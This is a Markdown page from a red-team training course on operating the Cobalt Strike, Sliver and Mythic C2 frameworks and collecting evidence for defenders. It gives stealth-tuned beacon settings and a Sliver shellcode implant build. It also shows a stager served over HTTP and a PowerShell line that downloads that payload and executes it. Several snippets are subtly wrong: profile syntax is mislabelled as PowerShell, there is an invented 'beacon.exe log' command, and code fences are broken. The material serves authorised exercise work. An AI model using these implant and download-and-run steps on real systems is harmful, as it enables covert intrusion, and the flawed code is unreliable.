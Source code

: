 ```yaml
---
layout: post
title: "11.2 Red‑Team Execution – Operating C2 Frameworks & Capturing Artefacts"
date: 2025-07-13
permalink: /modules/11/red-team-execution/
excerpt: >
  Drive ATT&CK‑aligned playbooks with modern command‑and‑control (C2) suites,
  maintain stealth and OPSEC, and collect high‑fidelity evidence for blue‑team
  mapping.  This post walks through Cobalt Strike, Sliver, and Mythic setups,
  beacon op‑notes, and automated artefact harvesters.
header:
  overlay_image: /assets/images/redteam-execution-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Execution without measurement is noise; execution with artefacts is a
> teaching moment.”  
> — Lead Red‑Team Operator

## 1 • C2 Framework Comparison

| Feature / Need                | **Cobalt Strike** | **Sliver (OSS)** | **Mythic** |
|--------------------------------|-------------------|------------------|------------|
| License / Cost                | Commercial        | Free (AGPL)      | Free (Apache) |
| Cross‑Platform Implants       | Windows / Linux   | Win / *nix / mac | Modular  |
| Built‑in OPSEC Randomisation  | Sleep jitter, SMB| Sleep, MTLS      | Random Profiles |
| Automated Profile Builder     | C2 Profiles       | `sliver profile` | Mythic Profiles |
| Scripting API                 | AggressorScript   | gRPC Python/Go   | REST / MythicRPC |
| Beacon Egress Channels        | HTTP/S, DNS, SMB  | HTTP/2, MTLS, WireGuard | HTTP/S, gRPC |
| Native Artifact Capture       | `artifactstore`   | `loot` directory | File Browser |

> **OPSEC Tip:** Always set `useragent`, `URI paths`, and **jitter** to mimic
baseline traffic before launching an exercise.

---

## 2 • Sample Beacon Configuration (Cobalt Strike)

```powershell
# AggressorScript snippet
stage {
  set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
  set sleeptime 45000;
  set jitter    15;
  set uris "/news.php,/update";
  set pipename "\\\\.\\pipe\\MSSE-{{randstr 4}}";
  set autorun "artifact_log();";
}
```

*Maps to ATT\&CK techniques:*
`T1105` (Ingress Tool Transfer) – beacon stage,
`T1021.002` (SMB Pivot) – named pipes for lateral.

---

## 3 • Sliver Implant Build & Launch

```bash
sliver > generate --mtls --os windows --format shellcode --sleep 60s \
                  --jitter 20 --http-server cdn.corp.live --save ./sliver.sc
# Host stager
sudo python3 -m http.server 80

# Listener
sliver > mtls --lport 443 --webui
```

Trigger via **Atomic ID T1105**:
```
```powershell
Invoke-WebRequest http://cdn.corp.live/sliver.sc -OutFile sc.bin
.\sc.bin
```

---

## 4 • Artefact Collection Script (Windows)

```powershell
$guid = [guid]::NewGuid().ToString()
New-Item -ItemType Directory -Path "C:\RedTeamLogs\$guid" | Out-Null

# Process & network snapshot
Get-Process | Export-Csv "C:\RedTeamLogs\$guid\proc.csv" -NoType
Get-NetTCPConnection | Export-Csv "C:\RedTeamLogs\$guid\tcp.csv" -NoType

# Beacon log (Cobalt)
& beacon.exe log -o "C:\RedTeamLogs\$guid\beacon.log"

Compress-Archive "C:\RedTeamLogs\$guid" "C:\RedTeamLogs\$guid.zip"
```

Feed the ZIP to blue‑team for **forensic timeline reconstruction**.

---

## 5 • Mapping Execution Artefacts to ATT\&CK

| Artefact / Log Line                  | Technique ID | Tactic            |
| ------------------------------------ | ------------ | ----------------- |
| `powershell.exe -enc ...` (Sysmon 1) | T1059.001    | Execution         |
| Named‑pipe `\\.\pipe\MSSE‑A12B`      | T1021.002    | Lateral Movement  |
| `beacon_callback` POST `/news.php`   | T1105        | C2                |
| Registry `Run` key value `Updater`   | T1547.001    | Persistence       |
| LSASS handle open (ETW)              | T1003.001    | Credential Access |

Populate a **Red/Blue shared spreadsheet** or push directly to ATT\&CK Navigator
layer for purple‑team review.

---

## 6 • OPSEC & Safety Controls

1. **Call‑backs only to range DNS / IPs**—whitelist in firewall.
2. **Kill‑Switch Macro**—`beacon_exit` or `sliver exit` bound to key combo.
3. **No Real Data Exfil**—use synthetic corp data set for T1041 tests.
4. **Time‑Box Sleep**—max 4 h dwell; auto‑kill after exercise window.
5. **Audit Log Split**—store artefacts in `\\fileshare\red_ops\YYYY‑MM‑DD`.

---

## 7 • Automating Evidence Push to SOC (Splunk HEC)

```bash
curl -k -H "Authorization: Splunk $TOKEN" \
     -d @"$guid.zip" \
     https://splunk.lab:8088/services/collector/raw?channel=redteam&source=red_c2
```

Adds `source=red_c2` for easy separation from prod logs.

---

## 8 • Best Practices

| Area                    | Guidance                                             |
| ----------------------- | ---------------------------------------------------- |
| **Repeatability**       | Store playbook ID, implant SHA‑256, and commit hash. |
| **Minimal Implants**    | One beacon per host—reduces noise & forensic sprawl. |
| **Living‑off‑The‑Land** | Blend with native binaries; lowers detectability.    |
| **Operator Notes**      | Record every manual command in a timestamped diary.  |
| **Blue‑Team Debrief**   | 24 h post‑exercise walk‑through of artefacts & gaps. |

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://www.cobaltstrike.com/" target="_blank">Cobalt Strike</a></li>
    <li><a href="https://github.com/BishopFox/sliver" target="_blank">Sliver C2</a></li>
    <li><a href="https://github.com/its-a-feature/Mythic" target="_blank">Mythic Framework</a></li>
    <li><a href="https://github.com/redcanaryco/atomic-red-team" target="_blank">Atomic Red Team</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/11/mitre-attack-evaluations/" class="next-link">11.3 MITRE ATT\&CK Evaluations →</a>